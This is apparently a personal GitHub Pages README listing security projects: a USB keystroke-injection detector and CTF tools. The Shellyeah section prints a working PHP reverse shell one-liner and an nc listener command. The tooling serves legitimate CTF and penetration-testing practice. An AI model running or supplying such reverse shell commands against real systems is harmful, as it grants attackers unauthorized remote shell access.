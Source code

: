 # touhottaja.github.io
Hi there internet dweller, thanks for stopping by 👋

This GitHub pages site acts as a central place for me to collect my projects and thoughts into.

## BUSBER
Bad USB Buster (busber for short) is a simple tool for checking if a USB device is malicious by collecting keypress events from it, if it sends any. The tool is far from perfect, so use at your own risk. Should be good enough to be used on sacrificial devices, such as Raspberry Pi.

### Demo
[![Busber demo](https://img.youtube.com/vi/T3OAkjLCleU/0.jpg)](https://www.youtube.com/watch?v=T3OAkjLCleU)


## CTF tools
I've developed some personal tools to help with CTFs. Maybe you'll find them useful. They're available [here](https://github.com/Touhottaja/ctf_tools).

### WL-Fetcher
[WL-Fetcher](https://github.com/Touhottaja/ctf_tools/blob/main/wl_fetcher.sh) is bash script for downloading wordlists from multiple sources.

#### Usage
```
$ mkdir wordlists/
$ chmod +x wl_fetcher.sh
$ ./wl_fetcher.sh -d wordlists/  # Fetches the wordlists
$ ./wl_fetcher.sh -u wordlists/  # Fetches changes for the wordlists
```

### Shellyeah
[Shellyeah](https://github.com/Touhottaja/ctf_tools) is a CLI tool (with an awful large ASCII art) for generating reverse shell commands.

#### Usage
```
$ sudo ln -s [<Path to shellyeah.py>]/shellyeah.py /usr/local/bin/shellyeah
$ chmod +x shellyeah
$ shellyeah -a 1.2.3.4 -p 1234 -s "php exec"

 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

Listener command:
nc -lvnp 1234

Reverse shell command:
php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
